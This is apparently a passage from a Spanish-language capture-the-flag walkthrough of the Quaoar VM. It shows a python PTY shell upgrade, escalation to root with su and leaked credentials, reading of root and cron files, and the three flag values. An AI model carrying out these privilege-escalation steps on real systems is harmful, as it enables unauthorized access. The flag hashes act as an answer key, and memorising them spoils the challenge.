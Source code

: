 Pues parece que tenemos unas credenciales root:rootpassword!  
Vamos a probar a ver si con suerte podemos acceder con esta contraseña al usuario root.  
Invocamos terminal por python que sino no podemos hacer su y probamos:  

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Quaoar:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Quaoar:/$ su
su
Password: rootpassword!
root@Quaoar:/#   
```

Pues sí que ha funcionado! ya somos root, vamos a buscar el segundo flag!

```bash
root@Quaoar:/# cd /root/
cd /root/
root@Quaoar:~# ls
ls
flag.txt  vmware-tools-distrib
root@Quaoar:~# cat flag.txt
cat flag.txt
8e3f9ec016e3598c5eec11fd3d73f6fb
root@Quaoar:~# 
```
# FLAG 3 - POST EXPLOTATION
Aquí lo tenemos! Pues parece que ya tenemos el flag y root debería estar todo, pero en las instrucciones de la máquina se informa de que hay un flag más post-explotación, vamos a buscarlo.

Después de un buen rato buscando en servicios y archivos flag.txt en el equipo no encuentro nada. Me pongo a mirar sobre los servicios IMAP instalados que nos habían salido en el nmap y al hacer un cat al cron por si teníamos ahí algo sobre el IMAP encuentro el tercert flag!

```bash
root@Quaoar:/# cat /etc/cron.d/*
cat /etc/cron.d/*
# /etc/cron.d/php5: crontab fragment for php5
#  This purges session files older than X, where X is defined in seconds
#  as the largest value of session.gc_maxlifetime from all your php.ini
#  files, or 24 minutes if not defined.  See /usr/lib/php5/maxlifetime
# Its always a good idea to check for crontab to learn more about the operating system good job you get 50! - d46795f84148fd338603d0d6a9dbf8de
# Look for and purge old sessions every 30 minutes
09,39 *     * * *     root   [ -x /usr/lib/php5/maxlifetime ] && [ -d /var/lib/php5 ] && find /var/lib/php5/ -depth -mindepth 1 -maxdepth 1 -type f -cmin +$(/usr/lib/php5/maxlifetime) ! -execdir fuser -s {} 2>/dev/null \; -delete
```

Y ya podemos dar por completada esta máquina.

Flag 1 - 2bafe61f03117ac66a73c3c514de796e  
Flag 2 - 8e3f9ec016e3598c5eec11fd3d73f6fb  
Flag 3 - d46795f84148fd338603d0d6a9dbf8de
